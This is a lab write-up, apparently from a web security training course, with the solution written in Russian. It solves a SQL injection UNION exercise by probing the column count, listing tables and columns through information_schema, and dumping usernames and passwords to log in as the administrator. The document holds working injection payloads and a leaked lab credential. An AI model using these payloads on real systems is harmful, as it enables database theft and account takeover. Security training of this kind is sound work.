




# Lab: SQL injection UNION attack, retrieving data from other tables

Level: `PRACTIONER`

## Description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Solution

Сначала определим количество столбцов в исходном запросе.

После payload: `' ORDER BY 3-- -` получаем внутренюю ошибку, значит аргумента 2.

Теперь нам нужно узнать имя таблицы из которой мы будем выводить `username` и `password`
> Да нам эта информация и так дана, но все же, не забываем как находить вектор самим

Для этого составим такой payload(вдруг это не ORACLE, тем более, что их больше):
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables-- -
```

Среди прочих таблиц замечаем `users`: 



Составим очередной запрос. Но в этот раз узнаем названия полей:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'-- -
```



Ну и наконец узнаем креды админа:

```sql
' UNION SELECT username, password FROM users-- -
```



Осталось залогиниться в `administrator:rjrt3ldg4ehy4qefzbiy`


